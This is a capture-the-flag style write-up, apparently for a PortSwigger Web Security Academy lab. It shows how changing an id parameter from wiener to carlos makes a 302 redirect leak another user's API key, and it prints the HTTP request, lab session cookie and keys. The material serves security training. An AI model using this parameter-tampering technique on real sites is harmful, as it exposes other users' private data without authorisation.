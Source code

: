 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a8ae98c6-d63e-440b-b2b7-2752efb06f50)


## Solution :

In some cases, an application does detect when the **user is not permitted to access the resource**, and **returns a redirect to the login page**. However, the r**esponse containing the redirect might still include some sensitive data belonging to the targeted user**, so the attack is still successful.

Clicking on `My Account` takes us to the login page where we can login as wiener useing the credentials `wiener:peter`.

We get the account page which displays wiener's API key - `TrXg5Plale9m8ZeZkBdoOcoUxMLx0A6Z`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/29ece96d-ee68-4033-9234-892ec63e13fa)

When we click on `My account` again, the browser sends a request which contains `?id=wiener`

```http
GET /my-account?id=wiener HTTP/2
Host: 0a5000690443c96d817ea23f00f10041.web-security-academy.net
Cookie: session=Ues4LJi6ijUdDxBu151S7lxWUznAJ8SH
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5000690443c96d817ea23f00f10041.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Send the request to repeater tab. Change the value to `?id=carlos` and observe the response.

We get a `302 Redirect` response back .

```http
HTTP/2 302 Found
Location: /login
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3395
```

Here the **API key of Carlos is leaked in the redirect response**.\

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/90a20837-28c2-41ea-8431-cf8b017e0504)

API key of wiener - `TrXg5Plale9m8ZeZkBdoOcoUxMLx0A6Z`
API key of carlos - `NF0f1VagtP0XYSz7Gk62NmWSj3ZOcAHE`

Submit the key and the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/57200fd6-219e-4763-a3a4-6305753838e1)








